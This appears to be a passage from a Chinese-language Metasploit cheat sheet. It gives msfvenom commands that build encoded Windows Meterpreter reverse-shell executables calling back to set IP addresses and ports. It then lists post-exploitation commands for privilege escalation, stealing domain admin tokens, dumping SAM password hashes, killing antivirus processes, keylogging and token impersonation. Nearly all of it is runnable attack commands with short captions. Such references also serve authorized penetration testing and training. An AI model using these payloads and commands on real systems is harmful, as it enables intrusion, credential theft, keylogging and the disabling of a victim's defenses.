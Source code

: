 创建一个raw格式的bind_tcp模式的Meterpreter攻击载荷，编码7次，输出payload.exe，同时开启多路监听方式

七、MSFvenom
msfvenom -p windows/meterpreter/reverse_tcp -f exe -e x86/shikata_ga_nai LHOST=172.14.1.32 LPORT=443 > msf.exe

msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.103 lport=4444 -f exe -o back.exe

创建和编码攻击载荷

八、Meterpreter后渗透攻击阶段命令
在windows主机上提权

meterpreter > use priv

meterpreter > getsystem

在一个给定的进程ID中窃取一个域管理员组令牌，添加一个域账户，并把域账户添加到域管理员组中

meterpreter > ps

meterpreter > steal_token 1784

meterpreter > shell

从SAM数据库中导出密码的哈希值

meterpreter > use priv

meterpreter > getsystem

meterpreter > hashdump

提示：在windows8中，若getsystem命令和hashdump命令抛出异常，则需要迁移到一个以system系统权限运行的程序中

自动迁移到一个独立进程

meterpreter > run migrate

通过Meterpreter的killav脚本杀死目标主机上运行的杀毒软件进程

meterpreter > run killav

针对一个特定的进程捕获目标主机上的键盘记录

meterpreter > ps

meterpreter > migrate 1436

meterpreter > keyscan_start

meterpreter > keyscan_dump

meterpreter > keyscan_stop

使用匿名方式来冒充管理员

meterpreter > use incognito

meterpreter > list_tokens -u

meterpreter > use priv

meterpreter > getsystem
